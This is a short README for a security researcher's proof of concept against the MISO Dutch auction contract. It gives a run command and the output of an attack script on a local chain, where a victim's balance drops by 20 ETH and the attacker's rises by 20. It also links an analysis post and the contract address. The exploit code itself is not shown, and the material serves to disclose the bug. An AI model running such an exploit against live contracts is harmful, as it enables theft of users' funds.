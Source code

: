 # MISO

## How to run
Install brownie first

```
sh run.sh
```

```
Running 'scripts/attack.py::main'...
Victim balance before commitEth: 100.000000000000000000
Victim balance after commitEth: 80.000000000000000000
DutchAuction balance after victim commit: 20.000000000000000000
Attacker balance before: 100.000000000000000000
Attacker balance after: 120.000000000000000000
Terminating local RPC client...
```



## link 

https://www.paradigm.xyz/2021/08/two-rights-might-make-a-wrong/

https://etherscan.io/address/0x4c4564a1FE775D97297F9e3Dc2e762e0Ed5Dda0e#code

## Credit

This PoC is developed by iondex of the BlockSec team.